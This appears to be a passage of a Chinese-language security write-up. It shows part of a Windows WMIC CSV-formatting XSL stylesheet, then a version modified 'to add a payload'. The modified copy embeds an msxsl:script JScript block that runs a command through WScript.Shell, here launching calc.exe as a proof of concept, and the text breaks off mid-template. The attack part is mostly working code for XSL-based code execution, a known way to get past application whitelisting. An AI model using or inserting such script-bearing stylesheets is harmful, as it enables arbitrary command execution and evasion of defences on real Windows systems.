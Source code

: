 ```

<xsl:template match="PROPERTY.REFERENCE" xml:space="preserve"><xsl:apply-templates select="VALUE.REFERENCE"></xsl:apply-templates></xsl:template>

<xsl:template match="PROPERTY"><xsl:apply-templates select="VALUE"/></xsl:template>
<xsl:template match="PROPERTY.ARRAY"><xsl:for-each select="VALUE.ARRAY"><xsl:apply-templates select="."/></xsl:for-each></xsl:template>

<xsl:template match="VALUE.REFERENCE">"<xsl:apply-templates select="INSTANCEPATH/NAMESPACEPATH"/><xsl:apply-templates select="INSTANCEPATH/INSTANCENAME|INSTANCENAME"/>"</xsl:template>

<xsl:template match="NAMESPACEPATH">\\<xsl:value-of select="HOST/text()"/><xsl:for-each select="LOCALNAMESPACEPATH/NAMESPACE">\<xsl:value-of select="@NAME"/></xsl:for-each>:</xsl:template>

<xsl:template match="INSTANCENAME"><xsl:value-of select="@CLASSNAME"/><xsl:for-each select="KEYBINDING"><xsl:if test="position()=1">.</xsl:if><xsl:value-of select="@NAME"/>="<xsl:value-of select="KEYVALUE/text()"/>"<xsl:if test="position()!=last()"></xsl:if><xsl:if test="not($norefcomma=&quot;true&quot;)">,</xsl:if><xsl:if test="$norefcomma=&quot;true&quot;"><xsl:text> </xsl:text></xsl:if></xsl:for-each></xsl:template>


</xsl:stylesheet>
```


尝试在代码中添加payload，修改后的内容如下：

```
<?xml version="1.0"?>
<!-- Copyright (c) Microsoft Corporation.  All rights reserved. -->
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="urn:my-scripts">
<xsl:output encoding="utf-16" omit-xml-declaration="yes"/>
<xsl:param name="norefcomma"/>

<msxsl:script language="JScript" implements-prefix="user">
   function myFunction() {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      	return "";	  
   }
</msxsl:script>

<xsl:template match="/">

<xsl:value-of select="user:myFunction()"/>

Node,<xsl:for-each select="COMMAND/RESULTS[1]/CIM/INSTANCE[1]//PROPERTY|
COMMAND/RESULTS[1]/CIM/INSTANCE[1]//PROPERTY.ARRAY|COMMAND/RESULTS[1]/CIM/INSTANCE
[1]//PROPERTY.REFERENCE"><xsl:value-of select="@NAME"/><xsl:if test="position()!=last
()">,</xsl:if></xsl:for-each><xsl:apply-templates 
select="COMMAND/RESULTS"/></xsl:template> 

<xsl:template match="RESULTS" xml:space="preserve"><xsl:apply-templates 
select="CIM/INSTANCE"/></xsl:template> 
<xsl:template match="VALUE.ARRAY" xml:space="preserve">{<xsl:for-each 
select="VALUE"><xsl:apply-templates select="."/><xsl:if test="position()!=last
()">;</xsl:if></xsl:for-each>}</xsl:template>
<xsl:template match="VALUE" xml:space="preserve"><xsl:value-of 
select="."/></xsl:template>
<xsl:template match="INSTANCE" xml:space="preserve">
<xsl:value-of select="../../@NODE"/>,<xsl:for-each select="PROPERTY|PROPERTY.ARRAY|
PROPERTY.REFERENCE"><xsl:apply-templates select="."/><xsl:if test="position()!=last
```
